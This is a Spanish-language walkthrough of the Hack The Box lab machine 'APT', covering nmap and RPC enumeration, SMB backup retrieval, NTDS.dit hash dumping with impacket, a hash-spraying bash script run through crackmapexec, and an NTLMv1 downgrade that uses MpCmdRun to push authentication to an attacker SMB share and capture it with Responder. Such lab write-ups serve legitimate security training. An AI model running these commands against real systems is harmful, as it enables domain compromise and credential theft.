


# APT


## Enumeración.

### Nmap

Realizamos un escaneo con nmap para saber los puertos abiertos en el rango de 1-65536 puertos.

```text
# Nmap 7.91 scan initiated Sat Mar 6 13:00:17 2021 as: nmap -p- --open -n -T5 -v -oG allPorts -Pn 10.10.10.213
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.213 () Status: Up
Host: 10.10.10.213 () Ports: 80/open/tcp//http///, 135/open/tcp//msrpc/// Ignored State: filtered (65533)
# Nmap done at Sat Mar 6 13:00:43 2021 -- 1 IP address (1 host up) scanned in 85.92 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p- | Escaneo a los 65536 puertos |
| --open | Reporta solo los puertos con estado "open". |
| -T5 | Exploracion a velocidades insanas \(lo hago porque es un entorno de pruebas\). |
| -v | Muestra más información sobre el sondeo que se está realizando. |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts. |

Posteriormente verificamos las versiones de los servicios y haremos uso de scripts por default.

```text
# Nmap 7.91 scan initiated Sat Mar 6 13:02:13 2021 as: nmap -sCV -p80,135 -oN targeted 10.10.10.213
Nmap scan report for apt.htb (10.10.10.213)
Host is up (0.073s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Gigantic Hosting | Home
135/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 6 13:02:23 2021 -- 1 IP address (1 host up) scanned in 10.13 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p80,135 | Escaneo a los puertos 80 y 135. |
| -sC | Escanea con los scripts por defecto. |
| -sV | Intenta determinar la versión del servicio que se ejecuta en el puerto. |
| -oN | Exporta los resultados en un formato nmap. |

### MSRPC

El puerto 80 realmente no podemos aprovecharnos de algo o al menos en los días que enumere, no encontré nada. Por lo tanto aquí lo importante es el puerto 135, leyendo los siguientes artículos vemos que existen maneras para enumerar puerto 135.





Usamos el módulo scanner/dcerpc/tcp\_dcerpc\_auditor de metasploit, para realizar la enumeración.


Tenemos los siguientes UUID:

* UUID 99fcfec4-5260-101b-bbcb-00aa0021347a
* UUID afa8bd80-7d8a-11c9-bef4-08002b102989

Basándonos en el resultado que obtuvimos podemos consultar este enlace, en el cual se listan diversas formas de obtener más información.



De las opciones listadas por el comentario, las correctas son las listadas con el UUID 99fcfec4-5260-101b-bbcb-00aa0021347a. Con base en los siguientes artículos, se explica cómo lograr una enumeración remota de interfaces de red en un equipo del sistema operativo Windows sin ninguna autenticación. Mediante RPC que está en manos de la interfaz IOXIDResolver. Esta interfaz forma parte de la activación remota de objetos DCOM.







Yo inserté directamente la dirección IP en el código, por lo que con eso debería bastar. Vemos que hemos obtenido las direcciones IPv6 del servidor.


### Nmap IPv6

Realizamos un escaneo con nmap para saber los puertos abiertos en el rango de 1-65536 puertos mediante IPv6.

```text
# Nmap 7.91 scan initiated Sun Mar 14 21:33:32 2021 as: nmap -p- --open -n -T5 -v -6 -oG allPorts -Pn
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: dead:beef::b885:d62a:d679:573f () Status: Up
Host: dead:beef::b885:d62a:d679:573f () Ports: 53/open/tcp//domain///, 80/open/tcp//http///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 5985/open/tcp//wsman///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////, 49673/open/tcp/////, 49689/open/tcp/////, 56038/open/tcp///// Ignored State: filtered (65514)
# Nmap done at Sun Mar 14 21:35:43 2021 -- 1 IP address (1 host up) scanned in 131.59 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p- | Escaneo a los 65536 puertos |
| --open | Reporta solo los puertos con estado "open". |
| -T5 | Exploracion a velocidades insanas \(lo hago porque es un entorno de pruebas\). |
| -v | Muestra más información sobre el sondeo que se está realizando. |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts. |
| -6 | Escaneo por IPv6. |
| -Pn | Omite la prueba de ping y simplemente escanea el host. |

Posteriormente verificamos las versiones de los servicios y haremos uso de scripts por default.

```text
# Nmap 7.91 scan initiated Sun Mar 14 21:36:22 2021 as: nmap -sCV -6 -p53,80,88,135,389,445,464,593,636,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49689,56038 -oN targeted dead:beef::b885:d62a:d679:573f
Nmap scan report for dead:beef::b885:d62a:d679:573f
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/10.0
|_http-title: Bad Request
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-03-15 03:39:39Z)
135/tcp   open  msrpc        Microsoft Windows RPC
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2021-03-15T03:40:43+00:00; +3m08s from scanner time.
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2021-03-15T03:40:43+00:00; +3m09s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc        Microsoft Windows RPC
49673/tcp open  msrpc        Microsoft Windows RPC
49689/tcp open  msrpc        Microsoft Windows RPC
56038/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m08s, deviation: 0s, median: 3m08s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2021-03-15T03:40:29+00:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-03-15T03:40:30
|_  start_date: 2021-03-13T14:04:10

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 14 21:37:35 2021 -- 1 IP address (1 host up) scanned in 72.68 seconds
```

Podemos deducir que está habilitado servicio de Active Directory utilizando autenticación de Kerberos.

Antes de empezar, agregamos al archivo /etc/hosts los siguientes dominios.

`echo dead:beef::b885:d62a:d679:573f apt.htb.local htb.local >> /etc/hosts`

### SMB

Comprobamos si podemos acceder mediante una Null sesión mediante smbclient.


Existe una carpeta llamada backup, en esta carpeta se encuentra un archivo backup.zip con contraseña.


Por lo que debemos de realizar un ataque de fuerza bruta sobre el respaldo para obtener el contenido.


Este es el contenido del backup, el archivo Ntds.dit es una base de datos que almacena datos de Active Directory, incluida información sobre objetos de usuario, grupos y pertenencia a grupos. Incluye los hashes de contraseña para todos los usuarios del dominio.


Por lo tanto debemos de extraer esta información, eso se hace de la siguiente manera:



`impacket-secretsdump -ntds /home/gazette/Documentos/HTB/APT/content/Active\ Directory/ntds.dit -system /home/gazette/Documentos/HTB/APT/content/registry/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract`


Ahora debemos de extraer los usuarios y determinar cuáles son válidos, ya que son un total de 2000 usuarios, no podemos ir verificando de uno por uno.

`cat ntlm-extract.ntds | cut -d ":" -f 1 > domain_users.txt`

Utilizando kerbrute para realizar este proceso, yo me descargue directamente el binario y lo inserte en /usr/bin/, le otorgamos permisos de ejecución para poderlo ejecutar desde cualquier parte.



Después de un rato tenemos que solo hay tres usuarios válidos APT$, Administrator y henry.vinson.


Ahora extraemos los usuarios válidos con los respectivos hashes.

`grep -Ee "Administrator|henry.vinson" -e"APT" ntlm-extract.ntds > domain_users_valid.txt`


En el memento que hice esto no se podía utilizar IPv6 en crackmapexec, pero había una solución, bastaba con agregar esta función en connection.py.


```python
def gethost_addrinfo(hostname):
    try:
        for res in socket.getaddrinfo(hostname, None, socket.AF_INET6,
                socket.SOCK_DGRAM, socket.IPPROTO_IP, socket.AI_CANONNAME):
            af, socktype, proto, canonname, sa = res
    except socket.gaierror:
        for res in socket.getaddrinfo(hostname, None, socket.AF_INET,
                socket.SOCK_DGRAM, socket.IPPROTO_IP, socket.AI_CANONNAME):
            af, socktype, proto, canonname, sa = res

    return sa[0]
    
#Remplazar self.host = gethostbyname(self.hostname)
#Por self.host = gethost_addrinfo(self.hostname)
```



Una vez solucionado este problema, proseguimos. A este punto no sabía si estaba haciendo algo mal porque probé distintos ataques y no obtenía resultados con los usuarios válidos, pero ahora debemos de confirmar que los hashes realmente si son, me voy adelantando los hashes que aparecen como usuarios válidos, no son. Por lo que vamos a hacer un password spraying con una lista de 2000 hashes.

Extraemos los hashes.

`awk -F ":" '/1/ {print $4}' ntlm-extract.ntds > hashes.lst`

No podemos realizarlo con los 2000 hashes porque está limitado la cantidad de confirmaciones que podemos hacer.



Hice un script que divida el archivo de 2000 líneas en archivos de 20 líneas, el cual da como resultado un total de 100 archivos.


Primero lo probé con APT$, pero no dio resultados, así que me pase al usuario henry.vinson, el script no es muy óptimo que digamos, pero funciona.

```bash
#!/bin/bash

file=hashes.lst
i=2000
o=1980

while [ $i -ge 20 ];do
  awk "NR >= $o && NR <= $i" hashes.lst > hashes-$i.lst
  let "i-=20"
  let "o-=20"
  crackmapexec smb dead:beef::b885:d62a:d679:573f -u henry.vinson -H hashes-$i.lst
  sleep 60
done
```

Después de un rato nos lanzará un resultado, el hash se encuentra en hashes-1500.lst:e53d87d42adaa3ca32bdb34a876cbffb


## Punto de acceso.

En ntlm-extract.ntds verificamos a quien pertenece el hash e53d87d42adaa3ca32bdb34a876cbffb y este pertenece a aine.stafford.


Ahora ye tenemos usuario válido con su respectivo hash, una vez más solo para comprobar que no salió mal.


Posterior a esto hice un checklist de los ataques que se pueden realizar, los probé y ninguno funciono.

Una de las cosas que había olvidado, es, el registro que se puede extraer con impacket, redireccione la salida y busque por palabras clave.

`# impacket-reg htb.local/henry.vinson@dead:beef::b885:d62a:d679:573f -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU -s > registro`

Lo importante está en HKEY\_USERS.


## Escalada de privilegios.

Enumeramos con: 





Este pequeño script en PowerShell podemos ver que se cambia el valor en el registro, en cuanto al nivel de seguridad, se habilita en nivel 2, el cual dice que los dispositivos cliente utilizan la autenticación NTLMv1 y utilizan la seguridad de sesión NTLMv2 si el servidor la admite. Los controladores de dominio aceptan la autenticación LM, NTLM y NTLMv2.




Estas son algunas maneras en las cuales podemos obtener el HASH.



Por lo tanto basta con abrir responder y forzar un downgrade.

`responder -im -I tun0`

Ahora, de las maneras de las que podemos obtener el hash, yo utilice, la siguiente:

`C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\10.10.14.120\file.txt`

Vemos que el hash ha sido capturado.


`APT$::HTB:2B186590B543319538C161BA6E4A19DFED52DD8B0B94DB5D:2B186590B543319538C161BA6E4A19DFED52DD8B0B94DB5D:9f362261e8db440b`

Utilice el siguiente enlace para realizar el cracking NTLMV1.






Basta con subir el hash con el formato que te piden y te llegara por correo.

`D167c3238864b12f5f82feae86a7f798`

https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee

`impacket-secretsdump 'apt.htb/APT$@dead:beef::b885:d62a:d679:573f' -hashes :d167c3238864b12f5f82feae86a7f798`


Utilizamos el hash para iniciar como administrador.


## Más enlaces de referencia:








